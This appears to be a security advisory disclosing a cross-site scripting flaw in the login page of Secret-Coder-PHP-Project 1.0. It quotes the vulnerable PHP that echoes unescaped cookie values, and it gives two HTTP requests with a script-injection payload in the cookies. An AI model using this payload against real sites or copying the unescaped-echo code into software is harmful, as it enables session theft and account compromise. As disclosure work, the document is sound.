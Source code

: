 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Secret-Coder-PHP-Project 1.0](https://github.com/keerti1924/Secret-Coder-PHP-Project/) <br/>

**Affected Version**:
> keerti1924/Secret-Coder-PHP-Project 1.0

**Affected Site Page**: 
> /login.php<br/>

**Affected Code**: 
> <https://github.com/keerti1924/Secret-Coder-PHP-Project/blob/main/login.php> <br/>
```php
<input type="email" class="form-control" id="email" name="email"
placeholder="Email Address" value="<?php
if (isset($_COOKIE['emailcookie'])) {
    echo $_COOKIE['emailcookie'];
} ?>">
```

```php
<input type="password" class="form-control" id="password" name="password"
placeholder="Password" value="<?php
if (isset($_COOKIE['passwordcookie'])) {
    echo $_COOKIE['passwordcookie'];
} ?>">
```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Login page of Secret-Coder-PHP-Project is vulnerable to XSS by modifying cookies `emailcookie` and `passwordcookie` making the website vulnerable on 2 instances.

Option 1:
```http 
GET /login.php HTTP/2
Host: [REDACTED]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Cookie: emailcookie="><script>alert('reigz')</script>
```

Option 2:
```http 
GET /login.php HTTP/2
Host: [REDACTED]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Cookie: passwordcookie="><script>alert('reigz')</script>
```

## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
